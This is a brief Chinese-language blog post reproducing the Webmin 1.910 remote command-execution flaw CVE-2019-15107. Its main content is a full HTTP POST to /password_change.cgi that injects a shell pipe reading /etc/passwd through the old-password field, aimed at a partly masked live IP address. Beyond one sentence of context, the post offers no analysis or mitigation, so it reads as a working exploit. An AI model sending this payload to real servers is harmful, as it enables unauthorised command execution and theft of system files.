 ```yaml
---
layout: post
title: "webmin_CMS命令执行漏洞复现（CVE-2019-15107）"
subtitle: "webmin_CMS命令执行漏洞复现（CVE-2019-15107）"
date: 2019-08-19
author: ppbibo
category: security
finished: true
---
```

[TOC]

## 正文

看到群里表哥曝出 webmin CMS 命令执行漏洞，所以复现下。

**version： Webmin 1.910**

```http
POST /password_change.cgi HTTP/1.1

Host: 107.**.**.**:30000

Referer: https://107.**.**.**:30000/sesss.cgi

Content-Type: application/x-www-form-urlencoded

Content-Length: 73

user=demo&pam=&expired=2&old=test | cat /etc/passwd&new1=test2&new2=test2
```



**RT：**

![webmin](/static/img/webmin.png)


------

***「 转载请声明博客地址及APT086&QQ愛安全实验室 」***



